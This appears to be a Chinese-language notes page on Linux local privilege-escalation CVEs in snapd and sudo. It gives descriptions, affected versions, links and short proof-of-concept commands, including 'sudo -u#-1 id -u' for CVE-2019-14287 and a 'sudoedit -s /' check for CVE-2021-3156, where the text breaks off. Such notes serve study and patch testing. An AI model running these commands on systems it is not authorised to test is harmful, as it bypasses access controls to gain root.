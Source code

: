 
### 原生软件提权

**CVE-2019-7304**
- 相关文章
    - [Snapd Ubuntu 提权分析](https://zhuanlan.zhihu.com/p/56916500)

**CVE-2019-14287**
- 简介

    当 sudo 配置为允许用户以任意方式运行命令时用户通过 Runas 规范中的 ALL 关键字，可以通过指定用户 ID -1 或 4294967295 以 root 用户身份运行命令。

- 影响范围
    - Sudo_project:Sudo:1.3.0:*:*:*
    - Sudo_project:Sudo:1.3.1:*:*:*
    - Sudo_project:Sudo:1.4.0:*:*:*
    - Sudo_project:Sudo:1.5.0:*:*:*
    - Sudo_project:Sudo:1.5.1:*:*:*

- 相关文章
    - [How to detect CVE-2019-14287 using Falco](https://sysdig.com/blog/detecting-cve-2019-14287/)
    - [CVE-2019-14287 linux sudo root 权限绕过漏洞复现](https://mp.weixin.qq.com/s/bb6Hd3JdYiLilqdP_-INtA)

- POC | Payload | exp
    ```bash
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!#0\s*)"

    sudo -u#-1 id -u
    或者:
    sudo -u#4294967295 id -u
    ```

**Ubuntu + accountsservice dos + gdm3 LPE**
- 相关文章
    - [How to get root on Ubuntu 20.04 by pretending nobody’s /home](https://securitylab.github.com/research/Ubuntu-gdm3-accountsservice-LPE)

**CVE-2021-3156 Sudo 本地权限提升**
- 漏洞描述

    在sudo解析命令行参数的方式中发现了基于堆的缓冲区溢出。任何本地用户（普通用户和系统用户，sudoer和非sudoers）都可以利用此漏洞，而无需进行身份验证，攻击者不需要知道用户的密码。成功利用此漏洞可以获得root权限。

- 相关文章
    - [CVE-2021-3156: Heap-Based Buffer Overflow in Sudo (Baron Samedit)](https://blog.qualys.com/vulnerabilities-research/2021/01/26/cve-2021-3156-heap-based-buffer-overflow-in-sudo-baron-samedit)
    - [漏洞情报｜Linux Sudo 本地权限提升高危漏洞风险通告（CVE-2021-3156）](https://mp.weixin.qq.com/s/UsY3NVJjOTiV-96tIA9IpA)
    - [CVE-2021-3156：Linux sudo权限提升漏洞复现](https://mp.weixin.qq.com/s/irbTURjWE1qHdAXTr8Y4BA)
    - [lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156](https://github.com/lockedbyte/CVE-Exploits/tree/master/CVE-2021-3156)

- POC | Payload | exp
    ```
    以非root用户登录系统,运行
    sudoedit -s /
